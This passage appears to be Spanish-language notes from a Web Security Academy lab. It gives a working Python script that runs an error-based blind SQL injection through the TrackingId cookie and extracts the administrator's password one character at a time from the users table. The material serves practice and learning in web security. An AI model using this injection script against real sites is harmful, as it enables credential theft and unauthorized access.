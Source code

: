 ```python
    makeRequest()
```

![[Pasted image 20230212235515.png]]

ahora que sabemosla longitud creamos el siguiente script para descubrir su contraseña:

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#ctr+c
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ad9007504cf9510c185dab5006f00d2.web-security-academy.net/"

# string.punctuation (caracteres especiales)
# string.digits (digitos 0-9)
# string.ascii_lowercase (minusculas a-z)
# string.ascii_uppercase (mayusculas A-Z)
# string.printable (todo 0-9a-zA-Z mas caracteres especiales)
characters = string.ascii_lowercase + string.digits

def makeRequest():

    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characters:
            cookies = {
            'TrackingId':"HuIEFSOLZ2xR1Kb5' or (select case when (substr(password,%d,1)='%s') then to_char(1/0) else 'a' end from users where username='administrator')='a'--" % (position,character),
            'session':'e7pYDD294jhx64lugK7Z7SDnBaPwqTX5'
        }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if r.status_code==500:
                password += character
                p2.status(password)
                break


if __name__ == '__main__':
    makeRequest()
```
